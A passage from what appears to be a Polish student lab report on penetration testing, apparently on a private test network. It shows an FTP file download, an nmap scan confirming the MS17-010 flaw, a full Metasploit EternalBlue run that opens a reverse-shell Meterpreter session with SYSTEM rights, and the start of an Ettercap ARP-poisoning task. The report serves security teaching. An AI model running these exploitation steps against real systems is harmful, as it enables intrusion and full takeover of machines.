22 bytes received in 00:00 (21.90 KiB/s)
ftp> get sekret2.txt
local: sekret2.txt remote: sekret2.txt
229 Entering Extended Passive Mode (|||11626|)
150 Opening BINARY mode data connection for sekret2.txt (20 bytes).
100% |**********************************************************************|    20      186.01 KiB/s    00:00 ETA
226 Transfer complete.
20 bytes received in 00:00 (25.29 KiB/s)
ftp> exit
221 Goodbye.
```

Zawartość przesyłanego oraz ściągniętych plików:









## Zadanie 6

### Eternal Blue
Wykrycie i potwierdzenie podatności za pomocą nmap'a.

```console
┌──(kali㉿kali)-[~]
└─$ nmap --script smb-vuln-ms17-010 -v 192.168.100.40
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-05 22:37 CET
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 22:37
Completed NSE at 22:37, 0.00s elapsed
Initiating Ping Scan at 22:37
Scanning 192.168.100.40 [2 ports]
Completed Ping Scan at 22:37, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:37
Completed Parallel DNS resolution of 1 host. at 22:37, 0.01s elapsed
Initiating Connect Scan at 22:37
Scanning 192.168.100.40 [1000 ports]
Discovered open port 80/tcp on 192.168.100.40
Discovered open port 3389/tcp on 192.168.100.40
Discovered open port 8080/tcp on 192.168.100.40
Discovered open port 22/tcp on 192.168.100.40
Discovered open port 3306/tcp on 192.168.100.40
Discovered open port 135/tcp on 192.168.100.40
Discovered open port 139/tcp on 192.168.100.40
Discovered open port 21/tcp on 192.168.100.40
Discovered open port 445/tcp on 192.168.100.40
Discovered open port 49153/tcp on 192.168.100.40
Discovered open port 9200/tcp on 192.168.100.40
Discovered open port 4848/tcp on 192.168.100.40
Discovered open port 7676/tcp on 192.168.100.40
Discovered open port 8181/tcp on 192.168.100.40
Discovered open port 49154/tcp on 192.168.100.40
Discovered open port 49152/tcp on 192.168.100.40
Discovered open port 8383/tcp on 192.168.100.40
Completed Connect Scan at 22:37, 1.71s elapsed (1000 total ports)
NSE: Script scanning 192.168.100.40.
Initiating NSE at 22:37
Completed NSE at 22:37, 0.05s elapsed
Nmap scan report for 192.168.100.40
Host is up (0.00049s latency).
Not shown: 983 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
3389/tcp  open  ms-wbt-server
4848/tcp  open  appserv-http
7676/tcp  open  imqbrokerd
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8383/tcp  open  m2mservices
9200/tcp  open  wap-wsp
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

NSE: Script Post-scanning.
Initiating NSE at 22:37
Completed NSE at 22:37, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.11 seconds
```

Wykorzystanie podatności za pomocą **Metasploit**

```console
┌──(kali㉿kali)-[~]
└─$ msfconsole 
                                                  

MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v6.2.23-dev                          ]
+ -- --=[ 2259 exploits - 1188 auxiliary - 402 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: You can use help to view all 
available commands
Metasploit Documentation: https://docs.metasploit.com/

msf6 > search eternalblue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framewo
                                             rk/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affect
                                             s Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 tar
                                             get machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Wi
                                             ndows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Serv
                                             er 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.100.126  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.100.40
rhosts => 192.168.100.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.100.126:4444 
[*] 192.168.100.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.100.40:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.100.40:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.100.40:445 - The target is vulnerable.
[*] 192.168.100.40:445 - Connecting to target for exploitation.
[+] 192.168.100.40:445 - Connection established for exploitation.
[+] 192.168.100.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.100.40:445 - CORE raw buffer dump (51 bytes)
[*] 192.168.100.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.100.40:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.100.40:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 192.168.100.40:445 - 0x00000030  6b 20 31                                         k 1             
[+] 192.168.100.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.100.40:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.100.40:445 - Sending all but last fragment of exploit packet
[*] 192.168.100.40:445 - Starting non-paged pool grooming
[+] 192.168.100.40:445 - Sending SMBv2 buffers
[+] 192.168.100.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.100.40:445 - Sending final SMBv2 buffers.
[*] 192.168.100.40:445 - Sending last fragment of exploit packet!
[*] 192.168.100.40:445 - Receiving response from exploit packet
[+] 192.168.100.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.100.40:445 - Sending egg to corrupted connection.
[*] 192.168.100.40:445 - Triggering free of corrupted buffer.
[-] 192.168.100.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.100.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.100.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.100.40:445 - Connecting to target for exploitation.
[+] 192.168.100.40:445 - Connection established for exploitation.
[+] 192.168.100.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.100.40:445 - CORE raw buffer dump (51 bytes)
[*] 192.168.100.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.100.40:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
[*] 192.168.100.40:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 192.168.100.40:445 - 0x00000030  6b 20 31                                         k 1             
[+] 192.168.100.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.100.40:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.100.40:445 - Sending all but last fragment of exploit packet
[*] 192.168.100.40:445 - Starting non-paged pool grooming
[+] 192.168.100.40:445 - Sending SMBv2 buffers
[+] 192.168.100.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.100.40:445 - Sending final SMBv2 buffers.
[*] 192.168.100.40:445 - Sending last fragment of exploit packet!
[*] 192.168.100.40:445 - Receiving response from exploit packet
[+] 192.168.100.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.100.40:445 - Sending egg to corrupted connection.
[*] 192.168.100.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.100.40
[*] Meterpreter session 1 opened (192.168.100.126:4444 -> 192.168.100.40:49373) at 2022-11-05 22:42:52 +0100
[+] 192.168.100.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.100.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.100.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > sysinfo
Computer        : VICTIM02
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\Windows\system32
meterpreter > 
```

## Zadanie 7

### MITM przez ARP poisoning

Użyte narzędzie: **Ettercap**
Target 1: 192.168.100.178 - parrot os
Target 2: 192.168.100.1 - domyślna brama



